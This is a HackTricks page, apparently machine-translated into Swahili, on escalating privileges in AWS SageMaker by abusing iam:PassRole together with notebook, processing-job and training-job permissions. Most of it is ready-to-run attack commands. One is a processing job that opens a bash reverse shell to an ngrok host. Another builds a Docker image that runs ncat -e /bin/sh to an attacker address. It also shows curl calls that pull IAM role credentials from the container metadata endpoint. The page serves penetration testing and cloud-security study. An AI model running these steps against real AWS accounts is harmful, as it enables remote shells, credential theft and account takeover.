 # AWS - Sagemaker Privesc

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Anza kujenga daftari na Jukumu la IAM ili kupata ufikivu uliowekwa:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Jibu linapaswa kuwa na uga wa `NotebookInstanceArn`, ambao utaleta ARN ya kifaa cha notebook kilichoundwa. Tunaweza kutumia API ya `create-presigned-notebook-instance-url` kuzalisha URL ambayo tunaweza kutumia kufikia kifaa cha notebook mara tu itakapokuwa tayari:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Nenda kwenye URL na bofya `Fungua JupyterLab` kulia juu, kisha shuka chini hadi kwenye kichupo cha "Mzinduzi" na chini ya sehemu ya "Nyingine", bonyeza kitufe cha "Terminal".

Sasa niwezekana kupata ufikiaji wa siri wa metadata ya Jukumu la IAM.

**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya sagemaker lililoelezwa.

## `sagemaker:CreatePresignedNotebookInstanceUrl`

Ikiwa kuna **madokezo ya Jupyter yanayoendesha tayari** na unaweza kuyapata kwa kutumia `sagemaker:ListNotebookInstances` (au kuyagundua kwa njia nyingine yoyote). Unaweza **kuunda URL kwa ajili yao, kuyafikia, na kuiba siri kama ilivyoelezwa katika mbinu iliyopita**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya sagemaker lililofungwa.

## `sagemaker:CreateProcessingJob,iam:PassRole`

Mshambuliaji mwenye ruhusa hizo anaweza kufanya **sagemaker kutekeleza kazi ya usindikaji** na jukumu la sagemaker lililofungwa. Mshambuliaji anaweza kuonyesha ufafanuzi wa chombo ambacho kitakachofanywa katika **kifaa cha akaunti ya AWS iliyosimamiwa na ECS**, na **kuiba vibali vya jukumu la IAM vilivyofungwa**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya sagemaker iliyotajwa.

## `sagemaker:CreateTrainingJob`, `iam:PassRole`

Mshambuliaji mwenye ruhusa hizo ataweza kuunda kazi ya mafunzo, **kupiga chombo cha aina yoyote** nacho kina **jukumu limeambatanishwa** nalo. Hivyo basi, mshambuliaji ataweza kuiba vibali vya jukumu.

{% hint style="warning" %}
Hali hii ni ngumu zaidi kuitumia kuliko ile ya awali kwa sababu unahitaji kuzalisha picha ya Docker itakayotuma rev shell au vibali moja kwa moja kwa mshambuliaji (hauwezi kutoa amri ya kuanza katika usanidi wa kazi ya mafunzo).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% mwisho %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya sagemaker iliyotajwa.

## `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Mshambuliaji mwenye ruhusa hizo (kwa uwezekano) ataweza kuunda **kazi ya mafunzo ya hyperparameter**, **kukimbia chombo cha aina yoyote** kwenye hiyo na **jukumu limeambatishwa** nayo.\
_Sijachunguza kwa sababu ya ukosefu wa muda, lakini inaonekana kama mbinu za zamani, jisikie huru kutuma PR na maelezo ya uvamizi._

# Marejeo
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PR kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
